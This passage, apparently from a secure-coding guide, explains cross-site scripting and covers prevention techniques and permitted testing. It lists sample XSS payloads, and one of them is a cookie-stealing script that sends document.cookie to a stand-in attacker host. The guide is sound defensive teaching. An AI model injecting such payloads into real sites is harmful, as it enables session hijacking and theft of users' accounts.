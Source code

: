 
### Common XSS Payloads
Attackers use various payloads depending on context:
- Basic: `<script>alert('XSS')</script>`
- Image Tag: `<img src="invalid" onerror="alert('XSS')">`
- Event Handler: `<div onmouseover="alert('XSS')">Hover me!</div>`
- URL Encoded (for filters): `%3Cscript%3Ealert(1)%3C/script%3E`
- Advanced: `<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>`

Filters may block `<script>`, so attackers get creative with tags like `<iframe>`, `<svg>`, or even CSS (`expression()` in older browsers).

---

### Prevention Techniques
To mitigate XSS, developers should focus on secure coding and configuration:

1. **Escape Output**
   - Encode user input before displaying it:
     - HTML: Convert `<` to `&lt;`, `>` to `&gt;`, etc.
     - JavaScript: Escape quotes and special characters (e.g., use `\` or libraries like `encodeURIComponent`).
     - Attributes: Avoid dynamic attributes; encode values.
   - Use libraries like PHP’s `htmlspecialchars()` or JavaScript’s `DOMPurify`.

2. **Content Security Policy (CSP)**
   - Add a CSP header to restrict script sources:
     ```http
     Content-Security-Policy: script-src 'self';
     ```
   - This blocks inline scripts and external sources unless explicitly allowed.

3. **Input Validation**
   - Restrict input to expected formats (e.g., alphanumeric usernames, no `<` or `>`).
   - Use whitelisting (allow only safe characters) over blacklisting.

4. **Avoid Dangerous Practices**
   - Don’t use `eval()`, `innerHTML`, or `document.write()` with untrusted data.
   - Example fix: Replace `element.innerHTML = userInput` with `element.textContent = userInput`.

5. **Secure Cookies**
   - Set the `HttpOnly` flag on cookies (`Set-Cookie: session=xyz; HttpOnly`) to prevent access via JavaScript.
   - Use `Secure` and `SameSite` flags to limit exposure.

6. **Use Frameworks**
   - Modern frameworks (e.g., React, Angular, Vue) often escape output by default, reducing XSS risk.

7. **Web Application Firewall (WAF)**
   - Deploy a WAF to filter malicious payloads (e.g., Cloudflare, ModSecurity).

---

### Testing for XSS
If you’re testing your own site (with permission):
- **Manual Test**: Submit `<script>alert(1)</script>` in forms, URL parameters, or search bars and check if it executes.
- **Burp Suite**: Intercept requests, inject payloads, and monitor responses.
- **Browser Console**: Inspect the DOM to see if input is reflected unsafely.

---